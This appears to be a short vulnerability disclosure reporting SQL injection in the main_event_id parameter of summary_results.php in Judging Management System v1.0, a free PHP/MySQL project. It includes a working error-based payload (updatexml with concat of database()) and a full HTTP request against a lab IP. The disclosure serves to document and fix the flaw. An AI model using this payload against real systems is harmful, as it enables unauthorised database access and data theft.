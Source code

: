 # Judging Management System v1.0 by oretnom23 has SQL injection

BUG_Author: debug601

vendors: https://www.sourcecodester.com/php/15910/judging-management-system-using-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /php-jms/summary_results.php?main_event_id=

Vulnerability location: /php-jms/summary_results.php?main_event_id=, main_event_id

dbname =jms_db

[+] Payload: /php-jms/summary_results.php?main_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> main_event_id

```sql
GET /php-jms/summary_results.php?main_event_id=1%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=f6bhcgo222sk31fnm99nf9tjt1
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/206375067-0e8ed137-a6fd-4c33-a050-f9cb4f4cdfbe.png)
